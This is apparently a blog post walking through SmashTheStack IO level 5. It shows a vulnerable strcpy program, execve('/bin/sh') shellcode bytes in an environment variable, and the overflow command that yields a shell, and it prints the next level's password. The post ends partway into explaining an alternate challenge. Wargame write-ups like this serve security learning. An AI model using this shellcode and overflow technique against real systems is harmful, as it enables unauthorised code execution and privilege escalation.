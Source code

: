 ```yaml
---
layout: post
title: "SmashTheStack IO Level 5"
date: 2014-07-18 20:08:18 +0300
comments: true
categories: [smashthestack, wargames, exploit]
keywords: smash the stack, wargames
description: SmashTheStack IO Level 5
published: false
---
```


This is another level with 2 alternate programs to exploit.

<!-- more -->

Code for level05.c:

``` c
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

	char buf[128];

	if(argc < 2) return 1;

	strcpy(buf, argv[1]);

	printf("%s\n", buf);	

	return 0;
}
```

This is a simple buffer overflow program. I will use the [x86 execve("/bin/sh")](http://www.shell-storm.org/shellcode/files/shellcode-811.php) shellcode and place it in an environment variable. Then I will get the address of that variable using an excellent program from Hacking: The Art of Exploitation and pass it to the level5 binary in order to get a shell.

First, here is the very useful code for getting the address of an environment variable, from Jon Erickson's book:

``` c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
int main(int argc, char *argv[]) {
        char *ptr;
        if(argc < 3) {
                printf("Usage: %s <environment var> <target program name>\n", argv[0]);
                exit(0);
        }
        ptr = getenv(argv[1]); /* Get env var location. */
        ptr += (strlen(argv[0]) - strlen(argv[2]))*2; /* Adjust for program name. */
        printf("%s will be at %p\n", argv[1], ptr);
}
```

Compile this program in your own directory. Next, add an environment variable with the shellcode:

``` plain
export PWN=$(python -c 'print "\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"')
```

Next we need to find out the offsets for exploiting the program (again pattern_create.rb and pattern_offset.rb are your friends):

``` plain
root@kali:/usr/share/metasploit-framework/tools# ./pattern_create.rb 200
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag
```

Run the program in GDB with the pattern and then get the offset:

``` plain
Program received signal SIGSEGV, Segmentation fault.
0x37654136 in ?? ()

root@kali:/usr/share/metasploit-framework/tools# ./pattern_offset.rb 0x37654136
[*] Exact match at offset 140
```

Now get the address of our environment variable:

``` plain
level5@io:/tmp/mydir$ ./getenv PWN /levels/level05
PWN will be at 0xbfffff53
```

Profit:

``` plain
level5@io:/tmp/mydir$ /levels/level05 $(python -c 'print "A" * 140 + "\x53\xff\xff\xbf"')
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAS���
sh-4.2$ whoami
level6
sh-4.2$ cat /home/level6/.pass
9BT8fmYDTPimXXhY3m
```

This was the easy way. Prepare for worse in the alternate way, with level05_alt.c:

``` c
//don't get trapped, there's no need
//level by bla
#include <sys/mman.h>
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

#define LOADERSIZE (232 + 16)
void* getASLRregion(int size, int flags);
void switchcontext(char* newstack, char* code);

int main(int argc, char* argv[], char* env[])
{
	char *newcode, *newstack;

	//allocate memory at random addresses
	newstack = getASLRregion(64 * 1024, PROT_READ | PROT_WRITE );
	newcode =  getASLRregion(64 * 1024, PROT_READ | PROT_WRITE | PROT_EXEC);

	if(argc > 1)
	if(!strchr(argv[1], 0xcd))
	if(!strchr(argv[1], 0xe8))
	if(!strstr(argv[1], "\x0F\x34"))
	if(!strchr(argv[1], 0xdb)) {
		//prepare new code section, leaving some space for a loader
		strncpy(newcode + LOADERSIZE, argv[1], 1000);
		
		//start executing using a new stack and code section.
		switchcontext(newstack + 64 * 1024, newcode);
	}
	return 0;
}




/*************************************************************************************************************************/
/* HALT! The code below only provides a controllable aslr/noexec for this challenge, there's no need to waste time on it */
/*************************************************************************************************************************/
void __attribute__((constructor))initializePRNG(){int seed;FILE*devrand=fopen("/dev/random","r");if(devrand==0)exit(-1);
if(fread(&seed, 4, 1, devrand) != 1)exit(-1);fclose(devrand);srand(seed);}unsigned int loader[100]={0xe899c031,0};void*
getASLRregion(int size, int flags){int tries=1000,hint,res;while(tries--){hint=rand()<<12;res=(int)mmap((void*)hint,size
+4096,flags,MAP_PRIVATE|MAP_ANONYMOUS,0,0);if(hint==res){loader[++loader[1]+1]=hint;return (void*)(res+(rand()&0xffc));}
if(munmap((void*)res,size+4096))exit(-1);}exit(-1);}void switchcontext(char*newstack,char*code){loader[1]<<=2;memcpy(code
,loader,loader[1]+8);memcpy(code+loader[1]+8,"\x68\x61\x70\x73\x00\x68\x6c\x66\x2f\x6d\x68\x63\x2f\x73\x65\x68\x2f\x70"
"\x72\x6f\x89\xe3\x89\xc1\xb0\x05\xcd\x80\x81\xc4\x10\x00\x00\x00\x85\xc0\x0f\x88\x97\x00\x00\x00\x50\x89\xe5\x31\xc9\x31"
"\xff\xc1\xe7\x04\x0f\xb6\xc9\x09\xcf\xe8\x73\x00\x00\x00\x85\xc0\x0f\x84\x80\x00\x00\x00\x80\xf9\x2d\x74\x10\x80\xe9\x30"
"\x80\xf9\x09\x76\xde\x80\xe9\x27\xe9\xd6\xff\xff\xff\x8b\x75\x04\xad\x39\xf8\x74\x3b\x85\xc0\x75\xf7\x57\x31\xc9\x31\xff"
"\xc1\xe7\x04\x0f\xb6\xc9\x09\xcf\xe8\x38\x00\x00\x00\x85\xc0\x74\x49\x80\xf9\x20\x74\x10\x80\xe9\x30\x80\xf9\x09\x76\xe2"
"\x80\xe9\x27\xe9\xda\xff\xff\xff\x5b\x89\xf9\x29\xd9\x31\xc0\x99\xb0\x7d\xcd\x80\xe8\x0e\x00\x00\x00\x85\xc0\x74\x1f\x80"
"\xf9\x0a\x75\xf2\xe9\x7c\xff\xff\xff\x51\x89\xe1\x31\xc0\x99\xb0\x03\x42\x8b\x5d\x00\xcd\x80\x59\xc3\x31\xc0\x40\xcd\x80"
"\x31\xc0\xb0\x06\x5b\xcd\x80\x31\xc0\x5b\x31\xc9\xb1\x10\xfd\x89\xe7\xf3\xab\xfc\x8d\x7b\xf8\xb1\x3d\x99\x31\xdb\x31\xf6"
"\xf3\xab\x31\xff",LOADERSIZE-16);asm("mov %0, %%esp\nmov %1,%%eax\njmp *%%eax"::"r"(newstack-4),"r"(code):"eax");}
```

#### Function overview

Well, let's first be clear on the flags used for the memory allocation:

PROT_EXEC  Pages may be executed.

PROT_READ  Pages may be read.

PROT_WRITE Pages may be written.

**strchr**

_char *strchr(const char *str, int ch);_

Returns a pointer to the first occurrence of character ch in str or a null pointer if no matching character is found.

The terminating null byte is considered part of the string, so that if  ch  is  specified  as '\0', this function returns a pointer to the terminator.



